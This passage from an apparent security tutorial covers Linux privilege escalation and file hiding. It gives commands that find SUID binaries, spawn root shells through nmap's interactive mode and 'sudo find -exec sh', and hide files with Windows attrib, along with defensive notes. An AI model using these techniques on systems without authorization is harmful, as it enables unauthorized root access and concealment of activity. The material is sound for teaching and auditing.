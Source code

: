 - Services should run with the minimum required privileges
- Database services rarely need root privileges
- Containerization and isolation help mitigate these risks
#### 3. Exploiting SUID Executables

```bash
# Find SUID executables
$ find / -perm -u=s -type f 2>/dev/null

# Example: Exploiting NMAP with SUID bit
$ nmap --interactive
nmap> !sh
```

**Educational Notes:**

- SUID (Set User ID) allows programs to run with the owner's permissions
- Regular audits of SUID binaries are essential
- Modern systems limit SUID usage and capabilities
#### 4. Exploiting Sudo Rights

```bash
# List sudo permissions
$ sudo -l

# Example: Exploiting sudo rights for the 'find' command
$ sudo find /home -exec sh -i \;
```

**Educational Notes:**

- Sudo configurations should follow the principle of least privilege
- Regular audits of sudo permissions are necessary
- Command restrictions and path controls can limit exploitation
## File Hiding Techniques

### Hiding Files with Attributes

```bash
# On Windows, hide a file using attributes
attrib +h [file/directory]

# Example:
attrib +h secret.txt
```

**Educational Notes:**

- Simple attribute-based hiding is easily detected
- File system forensics can reveal hidden files
- This technique is primarily effective against casual users
### NTFS File Streaming

NTFS alternate data streams allow hiding data within legitimate files.

